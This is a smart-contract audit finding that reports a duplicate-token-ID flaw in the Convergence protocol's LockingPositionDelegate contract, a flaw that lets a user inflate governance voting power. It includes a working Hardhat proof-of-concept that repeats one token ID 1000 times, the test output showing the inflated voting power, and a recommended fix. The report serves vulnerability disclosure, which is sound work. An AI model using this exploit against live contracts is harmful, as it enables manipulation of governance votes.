 Warm Tin Hamster

high

# Artificial increase of voting power

## Summary

The [`manageOwnedAndDelegated`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L330-L368) function of the `LockingPositionDelegate` contract allows users to manage the tokens IDs used to represent their voting. Users can provide, as a parameter, the [`OwnedAndDelegated`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L29-L33) structure consisting of three lists: `owneds`, `mgDelegateds`, and `veDelegateds`. The function iterates over each list, ensuring that the user is the actual owner of the token (for the `owneds` list) or that the token was delegated to them (for the `mgDelegateds` and `veDelegates` lists). Once this verification is done, the token is added to the corresponding list in the [`tokenOwnedAndDelegated` mapping](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L52).

The issue with the function is that it does not check whether the token has already been added to the list, allowing the user to reuse the same token identifier to artificially increase their voting power.

## Vulnerability Detail

The `manageOwnedAndDelegated` function lacks a check to prevent duplicates in the [`owneds`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L335-L345), [`mgDelegateds`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L347-L358), and [`veDelegateds`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L360-L367) lists of the `tokenOwnedAndDelegated` mapping. This omission results in inflated results from the functions [`getTokenOwnedAndDelegated`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L129-L136), [`getTokenMgOwnedAndDelegated`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L137-L143), and [`getTokenVeOwnedAndDelegated`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L145-L151) of the `LockingPositionDelegate` contract. These functions are utilized within the `LockingPositionService` contract in the [`mgCvgVotingPowerPerAddress`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionService.sol#L778-L779) and [`veCvgVotingPowerPerAddress`](https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionService.sol#L732-L733) functions.

Following proof of concept exploits presents artificial increase of the voting power:
```javascript
it.only("Exploit manageOwnedAndDelegated", async () => {
    let veUser1, mgUser1;
    
    console.log("Before the attack, single tokenId")
    let tokenIds = {owneds: [1], mgDelegateds: [], veDelegateds: []};
    await lockingPositionDelegate.connect(user1).manageOwnedAndDelegated(tokenIds);

    veUser1 = await lockingPositionService.veCvgVotingPowerPerAddress(user1);
    console.log("- veUser1:", veUser1);

    mgUser1 = await lockingPositionService.mgCvgVotingPowerPerAddress(user1);
    console.log("- mgUser1:", mgUser1);

    console.log("Exploiting...")
    console.log("Copying the tokenId 1000 times")
    let tokenIdsExploit = {owneds: Array.from({length: 1000}, () => 1), mgDelegateds: [], veDelegateds: []};
    await lockingPositionDelegate.connect(user1).manageOwnedAndDelegated(tokenIdsExploit);

    console.log("After the attack");
    veUser1 = await lockingPositionService.veCvgVotingPowerPerAddress(user1);
    console.log("- veUser1:", veUser1);

    mgUser1 = await lockingPositionService.mgCvgVotingPowerPerAddress(user1);
    console.log("- mgUser1:", mgUser1);
});
```

The result presents inflated voting power in `veCvgVotingPowerPerAddress` and `mgCvgVotingPowerPerAddress` functions.
```shell
  LockingPositionManager / veCvg/mgCvg manage delegation
Before the attack, single tokenId
- veUser1: 17795932198746494562n
- mgUser1: 17916666666666666666n
Exploiting...
Copying the tokenId 1000 times
After the attack
- veUser1: 17795931516915915825000n
- mgUser1: 17916666666666666666000n
    ✔ Exploit manageOwnedAndDelegated


  1 passing (1m)
```

## Impact

It is possible to artificially increase the voting power:
- In the `mgCvgVotingPowerPerAddress` function of `LockingPositionService` contract which is used in Meta-governance strategy.
- In the `veCvgVotingPowerPerAddress` function of `LockingPositionService` contract which is used in the Cvg Governance proposal strategy and in `vestingVotingPowerPerAddress` function of `VveCvgCalculator` contract.

## Code Snippet

- https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L335-L345
- https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L347-L358
- https://github.com/sherlock-audit/2023-11-convergence/blob/main/sherlock-cvg/contracts/Locking/LockingPositionDelegate.sol#L360-L367

## Tool used

Manual Review

## Recommendation

It is recommended to add additional checks in `manageOwnedAndDelegated` function to ensure the duplicated token identifiers are not allowed.
